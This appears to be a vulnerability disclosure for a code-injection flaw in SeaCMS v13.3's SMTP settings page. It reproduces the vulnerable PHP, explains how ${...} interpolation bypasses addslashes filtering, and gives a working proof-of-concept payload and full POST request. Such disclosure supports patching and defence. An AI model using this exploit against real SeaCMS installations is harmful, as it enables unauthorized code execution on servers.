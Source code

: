 ### Introduction

SeaCMS v13.3 contains a remote code execution (RCE) vulnerability. This vulnerability occurs because, although `admin_smtp.php` imposes certain restrictions on file editing, an attacker can bypass these restrictions and concatenate code in a way that allows the attacker to execute arbitrary commands. This allows an authenticated attacker to gain system privileges.

### Debugging Analysis and Vulnerability Exploitation

The latest version of SeaCMS, v13.3, contains a command execution vulnerability.


The vulnerable file `0omeqd/admin_smtp.php` uses PHP code concatenation, which is then written into the file data/admin/smtp.php. 

```php
<?php 	
header('Content-Type:text/html;charset=utf-8');
require_once(dirname(__FILE__)."/config.php");
CheckPurview();
if($action=="set")
{
	$weburl= $_POST['smtpserver'];
	$token = $_POST['smtpserverport'];
	$token = $_POST['smtpusermail'];
	$token = $_POST['smtpuser'];
	$token = $_POST['smtppass'];
	$open=fopen("../data/admin/smtp.php","w" );
	$str='<?php  ';	
	$str.='$smtpserver = "';
	$str.="$smtpserver";
	$str.='"; ';
	$str.='$smtpserverport = "';
	$str.="$smtpserverport";
	$str.='"; ';
	$str.='$smtpusermail = "';
	$str.="$smtpusermail";
	$str.='"; ';
	$str.='$smtpname = "';
	$str.="$smtpname";
	$str.='"; ';
	$str.='$smtpuser = "';
	$str.="$smtpuser";
	$str.='"; ';
	$str.='$smtppass = "';
	$str.="$smtppass";
	$str.='"; ';
	$str.='$smtpreg = "';
	$str.="$smtpreg";
	$str.='"; ';
	$str.='$smtppsw = "';
	$str.="$smtppsw";
	$str.='"; ';	
	$str.=" ?>";
	fwrite($open,$str);
	fclose($open);
	ShowMsg("成功保存设置!","admin_smtp.php");
	exit;
}
```

The web page where this occurs is found in the backend management system under email server settings. We intercept the request after clicking "Confirm."  
![](./public/7-2.png)

Through debugging and tracing, we find that in `include/filter.inc.php`, the `_FilterAll` method applies the `addslashes` function to the incoming parameters, preventing direct bypass via string concatenation.  
![](./public/7-3.png)


However, since the variable assignment in the written file uses **double quotes**, and double quotes can parse PHP variables, we can exploit this by injecting `${...}` to execute arbitrary PHP code.

We inject PHP code into the `smtppsw` parameter with the following payload:  
```
smtppsw=${phpinfo()}
```

### Exploit PoC

Captured request:
```r
POST /0omeqd/admin_smtp.php?action=set HTTP/1.1

smtpserver=smtp.qq.com&smtpserverport=465&smtpusermail=12345%40qq.com&smtpname=%E6%B5%B7%E6%B4%8B%E5%BD%B1%E8%A7%86%E7%BD%91&smtpuser=12345%40qq.com&smtppass=123456789&smtpreg=off&smtppsw=${phpinfo()}
```
![](./public/7-4.png)

Finally, visiting the PHP file executes the injected PHP code:  

```r
data/admin/smtp.php
```
![](./public/7-6.png)